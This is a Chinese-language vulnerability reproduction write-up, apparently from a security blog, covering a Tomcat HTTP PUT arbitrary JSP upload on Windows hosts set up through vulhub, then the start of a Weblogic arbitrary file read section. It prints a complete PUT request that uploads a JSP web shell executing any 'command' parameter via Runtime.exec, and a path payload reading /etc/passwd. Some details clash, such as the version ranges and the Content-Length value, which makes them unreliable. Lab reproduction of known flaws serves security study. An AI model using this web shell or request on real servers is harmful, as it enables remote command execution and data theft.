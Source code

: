 **漏洞原理**  
  
当 Tomcat 运行在 Windows 主机上，启用了 HTTP PUT 请求方法，可以通过构造请求向服务器上传包含任意代码的 JSP 文件，导致 JSP 文件中的代码能够被服务器执行  
  
**影响范围：**  
  
Tomcat 7.0.0 - 7.0.81  
  
**漏洞描述**：Apache Tomcat 7.0.0 - 7.0.79漏洞产生原因：在这个Dockerfile文件中，通过修改web.xml文件来添加一个名为readonly的参数，其值为false  
  
**漏洞复现：**  
  
靶场搭建可以直接使用vulhub  
  
可以看到readonly值为false  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v7HkfId2mESp4HOrdtcDA4Rf40oL48BHEhRRGUNRwxYnuHGXshpzSEJ6vwakMtztdWDtJAVmWb4tg/640?wx_fmt=png&from=appmsg "")  
```
PUT /1.jsp/ HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

<%
    java.io.InputStream is = Runtime.getRuntime()
                            .exec(request.getParameter("command"))
                            .getInputStream();
    int a = -1;
    byte[] b = new byte[2048];
    while ((a = is.read(b)) != -1) {
        out.print(new String(b));
    }
%>

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v7HkfId2mESp4HOrdtcDA4RD8nxwQicibkm5TJNCpFmBQJzFQLnca25kDzCFHH3JpT41auLTC2icY4Zg/640?wx_fmt=png&from=appmsg "")  
  
访问，即可执行任意命令  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v7HkfId2mESp4HOrdtcDA4RPTOEHno2TicOMRkWHxtygbKA3VbfKsOjAZGVibVMSZ3qiacBpsj13fWwA/640?wx_fmt=png&from=appmsg "")  
# 2、Weblogic  
## 任意文件读取漏洞   
  
**漏洞原理：**路径下存在任意文件读取： /hello/file.jsp?path=/etc/passwd  
  
**影响范围：**  
```
Weblogic 10.3.6.0
Weblogic 12.1.3.0
Weblogic 12.2.1.2
Weblogic 12.2.1.3

```  
  